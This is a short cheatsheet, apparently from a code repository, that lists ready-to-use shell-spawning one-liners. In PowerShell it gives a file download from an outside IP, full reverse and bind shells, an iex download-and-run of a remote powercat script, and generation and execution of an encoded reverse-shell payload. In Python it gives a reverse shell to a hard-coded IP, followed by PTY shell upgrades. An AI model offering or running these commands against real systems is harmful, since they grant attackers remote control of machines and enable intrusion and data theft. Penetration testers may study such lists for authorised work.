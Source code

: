 # Shell spawn cheatsheet



## *Powershell*

### Download file
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.22.33.44/wget.exe','C:\Users\test\Desktop\wget.exe')"
```

### Reverse shell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('11.22.33.44',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Bind shell
```powershell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

### Load a remote powercat script
```powershell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/0xc0de44/0xc0de/master/tools/powercat.ps1')
```

### Generate encoded payload (here a reverse shell)
```powershell
powercat -c 11.22.33.44 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```
### Execute it
```powershell
powershell -E <encoded payload>
```

## *python*

### Reverse shell
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("11.22.33.44",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
### Proper shell oneliner
```python
  python -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
/usr/bin/script -qc /bin/bash /dev/null
```



